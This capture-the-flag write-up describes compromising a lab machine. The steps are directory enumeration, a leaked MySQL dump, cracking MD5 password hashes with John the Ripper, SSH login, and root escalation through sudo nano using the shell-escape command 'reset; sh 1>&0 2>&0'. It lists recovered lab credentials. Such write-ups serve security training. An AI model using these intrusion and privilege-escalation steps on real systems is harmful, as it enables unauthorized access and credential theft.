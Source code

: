 ### Session : 

![logo](assets/image.png)

We ran an `nmap` scan as usual to check the open ports in this machine before attacking :
![Image1](assets/image1.png)

Since we saw that port 80 was open, We ran a Gobuster scan to look for any hidden directories so we can visit it. We were able to see two new directories as `/news` and `/backup`.
![Image2](assets/image2.png)

While visiting the `/news` directory from the web browser, we were able to see a `news.pdf` file. It was an article about *MD5 Hashing*. Since it didn't contain any usefull information, we looked into the other directories :
![Image3](assets/image3.png)

We visited the `/backup` directory and was able to see a `backup.txt` file:
![Image4](assets/image4.png)

While reading it, we were able to see that it was a mysql Dump and contained some credentials that could use to login to the `Mysql service` on port 3306 we found from the nmap scan :
![Image5](assets/image5.png)

We used the below command to connect to the `hareen` with the password `mylifemyrules`

```
┌──(root㉿kali)-[~]
└─# mysql -h <machine_ip> -u username -p
```

![Image6](assets/image6.png)

We were able to login to the mysql service. We used the below command to see the databases available and was able to see that `users` database is a new one :

```mysql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```

We switched our database to `users` and was able to see the tables using below commands and was able to see a `credentials` table :

``` mysql
MySQL [(none)]> use users;
MySQL [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| credentials     |
+-----------------+
```

We used the below command and was able to see the content of the table. It contained usernames with some **Hashed** passwords. 

```mysql
MySQL [users]> select * from credentials;
+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| sasindi | 1eef2ed29ebc81347aa56dce2995da6d |
| destiny | 9f05aa4202e4ce8d6a72511dc735cce9 |
| marc    | 8352269ae368edfeacfa7c1213c35015 |
| vinuk   | 46ea0d5b246d2841744c26f72a86fc29 |
+---------+----------------------------------+
```

We saved it into our local machine using the built in `nano` text editor in linux :

```
┌──(root㉿kali)-[~]
└─# nano hashes.txt
```

Pasted the hashes and `CTRL+X` to exit and press `y` to save and exit :
![Image7](assets/image7.png)

Because we don't know the hashing algorithm of these hashes, we got one hash and pasted into the [Hash-Identifier](https://hashes.com/en/tools/hash_identifier) and was able to see that this was hashed using `MD5`:
![Image8](assets/image8.png)

We used `John The Ripper` to crack the hashes using the wordlist *Rockyou.txt*. And was able to crack the hashes of the users: 

```
john <file_name> --wordlist=/path/to/wordlist --format=<format-of-the-hash>
```

![Image9](assets/image9.png)

Cracked hashes :

| Username | Password | cracked |
| :--: | :--: | ---- |
| sasindi | 1eef2ed29ebc81347aa56dce2995da6d | spiderman |
| destiny | 9f05aa4202e4ce8d6a72511dc735cce9 | mybaby |
| marc | 8352269ae368edfeacfa7c1213c35015 | myspace1 |
| vinuk | 46ea0d5b246d2841744c26f72a86fc29 | blahblahblah |

We then tried those to login using ssh and finally was able to login as `marc:myspace1` credentials  and grab the user flag:

```
ssh marc@<machine_ip>
```

![Image10](assets/image10.png)

We ran Linpeas and was able to see that we could run `nano` binary as sudo :
![Image11](assets/image11.png)

Looking for payloads in the GFTO Bins, We found that we can abuse that to elevate our privileges :
https://gtfobins.github.io/gtfobins/nano/#sudo

![Image12](assets/image12.png)

We used the commands as given :
- Sudo nano
- CTRL + R
- CTRL + X
- reset; sh 1>&0 2>&0

And was able to elevate our privileges to root and grab the root flag :

![Image13](assets/image13.png)

---

To Complete this box you need:
- Knowledge to use John the ripper to crack hashes.
- An idea about Linux Privilege Escalation .
- Ability to use Gobuster to enumerate directories.
- Know how to transfer linpeas to the victime machine.
- Basic idea about mysql and how to loot from databases

Notes :
- If we find a hash, we always check the type of it using a online tool like [Hash-Identifier](https://hashes.com/en/tools/hash_identifier) So we can crack it easily
- Nano is like the notepad in linux systems, we use it to edit and save our files.

